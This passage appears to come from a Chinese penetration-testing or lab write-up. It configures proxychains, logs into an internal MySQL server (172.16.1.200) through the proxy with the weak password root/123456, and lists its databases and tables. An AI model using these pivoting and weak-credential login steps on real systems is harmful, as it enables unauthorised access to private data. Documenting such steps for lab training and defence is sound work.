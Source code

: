 ```
vi /etc/proxychains4.conf
```

![image-20220615152736700111-1655884083631135.png](img/Untitled.assets/b95b96513ef4a86913299e669bdae7b7.png)

尝试使用弱口令`root/123456`连接：

```
proxychains4 mysql -uroot -h172.16.1.200 -p3306 -p

123456
```

连接成功：

![image-20220617131457265622-1655884084978931.png](img/Untitled.assets/95afb876e3925407f851173417f9a4f2.png)

执行命令查看数据库信息：

```
show databases;

use test;                              

show tables;
```
